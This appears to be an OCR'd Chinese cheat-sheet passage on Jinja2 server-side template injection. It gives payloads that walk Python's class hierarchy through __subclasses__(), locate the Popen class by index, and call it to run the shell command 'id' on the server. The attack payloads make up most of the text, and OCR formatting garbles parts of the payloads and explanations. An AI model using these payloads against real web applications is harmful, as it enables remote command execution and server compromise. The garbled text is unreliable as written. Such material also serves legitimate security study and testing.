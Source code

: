 jinjia2 模版注入

**列出所有 Python 类**

{{''.**class**.**mro**[1].**subclasses**()}}

- `''.__class__str`
    
    访问字符串类（
    
    ）
    
- `.__mro__[1]object`
    
    检索超类（
    
    ）
    
- `.__subclasses__()object`
    
    返回从继承的所有类
    

**查找`Popen`类别索引**

{% for c in ''.__class__.__mro__[1].__subclasses__() %}

{% if 'Popen' in c.__name__ %}

{{ loop.index0 }} - {{ c }}

{% endif %}

{% endfor %}

这将循环遍历所有子类，并打印包含 的类的索引`Popen`。我在索引 处找到了它`359`。

{{''.**class**.**mro**[1].**subclasses**()[359]('id', shell=True, stdout=-1).communicate()[0].decode()}}

- `stdout=-1`
    
    捕获输出
    
- `.communicate()[0]`
    
    获取字节响应
    
- `.decode()`
    
    将字节转换为可读的字符串
